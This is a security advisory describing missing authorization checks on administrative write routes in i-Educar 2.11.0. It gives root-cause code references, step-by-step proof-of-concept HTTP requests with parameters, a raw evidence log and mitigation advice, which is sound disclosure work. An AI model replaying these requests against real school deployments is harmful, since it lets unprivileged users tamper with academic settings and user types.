



# Missing authorization on administrative write routes

- **Product:** i-Educar 2.11.0 (latest release, tag `2.11.0`) (portabilis/i-educar)
- **Type / CWE:** CWE-862 Missing Authorization — https://cwe.mitre.org/data/definitions/862.html
- **Severity:** `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:H/A:H` = **8.1 High** (estimated from the vector, not an upstream score)
- **Affected version:** 2.11.0 (latest release, tag `2.11.0`)
- **Endpoint(s):** `POST /turma`, `DELETE /turma`, `POST /periodo-lancamento/criar`, `GET /periodo-lancamento/excluir`, `POST /usuarios/tipos`, `PUT /usuarios/tipos/{userType}`, `DELETE /usuarios/tipos/{userType}` — parameter(s): `name`, `level`, `ano`, `stage_type`, `stage`, `escola`, `periods[]`
- **Authentication:** login required, any profile (verified with the non-admin `secretary` profile, user type level 2)
- **Status:** VERIFIED against a local i-Educar 2.11.0 lab (2026-09-10)

## Summary

The administrative write routes for school classes, release periods and user
types are registered inside the global authenticated middleware group but are
not protected by a `can:` middleware; their controllers perform no
authorization check in `store()`, `create()`, `update()` or `delete()`. Any
authenticated user — a secretary or teacher profile, for example — can
therefore create and delete user types and release periods, and reach the
school-class mutation controller. The read/listing pages of the same features
*do* deny access to those profiles, so the application clearly intends to
restrict them; the write endpoints are simply missing the check.

This is the same class of issue that upstream has already been assigning CVEs
for in other routes (see References), but these specific endpoints and methods
are not covered by any existing advisory we could find.

## Root cause

`routes/web.php:36` opens the global authenticated group. Every route below is
only protected by `auth` (plus navigation/suspension/reset-password helpers):

```php
Route::group(['middleware' => ['ieducar.navigation', 'ieducar.footer',
    'ieducar.xssbypass', 'ieducar.suspended', 'auth',
    'ieducar.checkresetpassword']], function () {
```

No `can:` middleware appears on the three write groups:

- `routes/web.php:79-84` — user types (`AccessLevelController`)
- `routes/web.php:194-199` — release periods (`ReleasePeriodController`)
- `routes/web.php:210-213` — school classes (`SchoolClassController`)

Compare with correctly protected routes in the same file, for example
`routes/web.php:189-190` (`can:modify:` ... `Process::BLOCK_ENROLLMENT`) or
`routes/web.php:207-208`. The controllers contain no fallback check either:

- `app/Http/Controllers/AccessLevelController.php:33` `store()` and
  `:112/:130/:150` `create()/update()/delete()` never call `authorize()` or
  `isAdmin()`.
- `app/Http/Controllers/ReleasePeriodController.php:83` `create()`,
  `:134` `update()` and `:169` `delete()` never call `authorize()` or
  `isAdmin()`. `index()`/`show()` only compute `canView/canModify/canRemove`
  for the view.
- `app/Http/Controllers/SchoolClassController.php:22` `store()` (and `:139`
  `delete()`) have no authorization check.

A grep for `authorize|isAdmin|can:` in those three controllers returns
nothing.

## Proof of concept

1. Log in as the non-admin `secretary` profile.
2. Create a user type with `POST /usuarios/tipos`
   (`name=IEXPLORAR_POC_<pid>&level=4`). The server answers `302` to
   `/usuarios/tipos` and the row appears in the admin listing; the same
   secretary gets `302 → index.php?negado=1&err=1` when reading
   `/usuarios/tipos`, proving that read is denied but write is not.
3. Delete it with `DELETE /usuarios/tipos/{id}` as the secretary.
4. Create a release period with `POST /periodo-lancamento/criar`
   (`ano=2026&ref_cod_instituicao=1&escola[0][0]=2&stage_type=2&stage=1&start_date[]=01/03/2026&end_date[]=01/11/2026`);
   it appears in `/periodo-lancamento` for the secretary.
5. Delete it with `GET /periodo-lancamento/excluir?periods[]=<id>` as the
   secretary.
6. `POST /turma` with an empty body reaches `SchoolClassController::store()`
   and fails inside the service (`{"msg":"Undefined array key \"ano_letivo\""}`,
   HTTP 500) instead of returning `403`.

The PoC performs the full round-trips and cleans up after itself:

```bash
python3 i-explorar.py              # pick [02]
# or standalone:
python3 vulns/02-missing-authorization-admin-routes/poc.py --target http://127.0.0.1:8080
```

## Evidence

Raw output of the PoC run against the 2.11.0 release (`evidence/run-20260911T001716Z.log`), pasted
verbatim:

```
# i-explorar raw evidence
# started_at: 2026-09-11T00:17:16.066208+00:00
# host: -03
# target: http://127.0.0.1:8080
# secretary login -> HTTP 302
# admin login -> HTTP 302

### POST /turma as secretary (no authorization gate)
HTTP 500

--- body ---
{"msg":"Undefined array key \"ano_letivo\""}
--- end body ---

### POST /usuarios/tipos as secretary (name=IEXPLORAR_POC_345740)
HTTP 302
location: http://127.0.0.1:8080/usuarios/tipos

--- body ---
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="refresh" content="0;url='http://127.0.0.1:8080/usuarios/tipos'" />

        <title>Redirecting to http://127.0.0.1:8080/usuarios/tipos</title>
    </head>
    <body>
        Redirecting to <a href="http://127.0.0.1:8080/usuarios/tipos">http://127.0.0.1:8080/usuarios/tipos</a>.
    </body>
</html>
--- end body ---

### GET /usuarios/tipos as secretary (read is denied)
HTTP 302
location: index.php?negado=1&err=1

--- body ---
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="refresh" content="0;url='index.php?negado=1&amp;err=1'" />

        <title>Redirecting to index.php?negado=1&amp;err=1</title>
    </head>
    <body>
        Redirecting to <a href="index.php?negado=1&amp;err=1">index.php?negado=1&amp;err=1</a>.
    </body>
</html>
--- end body ---
# created user type id (from admin listing): 4

### DELETE /usuarios/tipos/4 as secretary
HTTP 302
location: http://127.0.0.1:8080/usuarios/tipos

--- body ---
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="refresh" content="0;url='http://127.0.0.1:8080/usuarios/tipos'" />

        <title>Redirecting to http://127.0.0.1:8080/usuarios/tipos</title>
    </head>
    <body>
        Redirecting to <a href="http://127.0.0.1:8080/usuarios/tipos">http://127.0.0.1:8080/usuarios/tipos</a>.
    </body>
</html>
--- end body ---
# row absent after delete: True

### POST /periodo-lancamento/criar as secretary
HTTP 302
location: http://127.0.0.1:8080/periodo-lancamento

--- body ---
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="refresh" content="0;url='http://127.0.0.1:8080/periodo-lancamento'" />

        <title>Redirecting to http://127.0.0.1:8080/periodo-lancamento</title>
    </head>
    <body>
        Redirecting to <a href="http://127.0.0.1:8080/periodo-lancamento">http://127.0.0.1:8080/periodo-lancamento</a>.
    </body>
</html>
--- end body ---
# release period ids before=[] after=['1']

### GET /periodo-lancamento/excluir?periods[]=1 as secretary
HTTP 302
location: http://127.0.0.1:8080/periodo-lancamento

--- body ---
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="refresh" content="0;url='http://127.0.0.1:8080/periodo-lancamento'" />

        <title>Redirecting to http://127.0.0.1:8080/periodo-lancamento</title>
    </head>
    <body>
        Redirecting to <a href="http://127.0.0.1:8080/periodo-lancamento">http://127.0.0.1:8080/periodo-lancamento</a>.
    </body>
</html>
--- end body ---
# release period 1 absent after delete: True
# finished_at: 2026-09-11T00:17:18.220849+00:00
```

## Screenshots



Caption: admin listing showing `IEXPLORAR_POC_SHOT` (level "Escola"),
created through `POST /usuarios/tipos` with the secretary session.



Caption: secretary session on `/periodo-lancamento` right after
`POST /periodo-lancamento/criar`, with the flash message
"Período cadastrado com sucesso." and the new 2026 period row.



Caption: console capture of the PoC run against the 2.11.0 lab.

## Impact

A low-privileged authenticated user (secretary, teacher, any non-admin
profile) can:

- create, modify and delete user types, i.e. define authorization levels in a
  system where that is an administrative function;
- create and delete release periods, changing when grades and absences can be
  submitted for every school;
- reach the school-class mutation controller, which creates/updates
  `pmieducar.turma` rows and their related stage/discipline data.

Integrity of the academic configuration is the primary impact; the user-type
write additionally enables a privilege-escalation attempt by crafting an
access level with broader permissions.

## Timeline

- 2026-09-10: local reproduction against the i-explorar 2.11.0 lab (this advisory)
- not yet reported to the maintainer — no remote or external contact was made
  from this repository

## Mitigation

- Add the missing `can:` middleware to the three route groups, mirroring the
  existing `Process::*` usage (for example
  `middleware('can:modify:' . Process::SETTINGS)` for settings-like actions).
- Add server-side `$this->authorize(...)`/`$request->user()->can(...)` checks
  at the top of every write action in `AccessLevelController`,
  `ReleasePeriodController` and `SchoolClassController`, so the guard does not
  depend on route registration alone.
- Consider a global gate that denies non-admin profiles by default for
  administrative route names (`usertype.*`, `release-period.*`,
  `schoolclass.*`) and requires an explicit allow entry.

## References

- Upstream repository: https://github.com/portabilis/i-educar
- Related upstream advisory (different endpoint, `/module/Api/turma`):
  CVE-2025-10073 — https://vuldb.com/vuln/323021
- Related upstream advisory (different endpoint,
  `/cancelar-enturmacao-em-lote/`): CVE-2025-10071 —
  https://vuldb.com/vuln/323019
- CWE-862: https://cwe.mitre.org/data/definitions/862.html
- This advisory (canonical URL): https://github.com/pollotherunner/i-explorar/blob/main/vulns/02-missing-authorization-admin-routes/README.md
